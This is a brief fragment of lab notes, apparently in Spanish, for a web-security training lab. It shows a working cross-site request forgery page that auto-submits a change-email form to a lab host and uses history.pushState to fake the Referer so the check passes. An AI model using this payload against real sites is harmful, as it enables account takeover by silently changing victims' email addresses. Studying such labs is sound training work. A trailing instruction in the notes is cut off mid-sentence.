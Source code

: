 ![](assets/2022-07-14-20-21-57.png)
```html
<html>
  
  <body>
  <script>history.pushState('', '', '/?0aa0000304a7d749c05b8fe2007700d1.web-security-academy.net')</script>
    <form action="https://0aa0000304a7d749c05b8fe2007700d1.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="adfa&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Añadir también en el head el 

![](assets/2022-07-14-20-32-47.png)

![](assets/2022-07-14-20-34-10.png)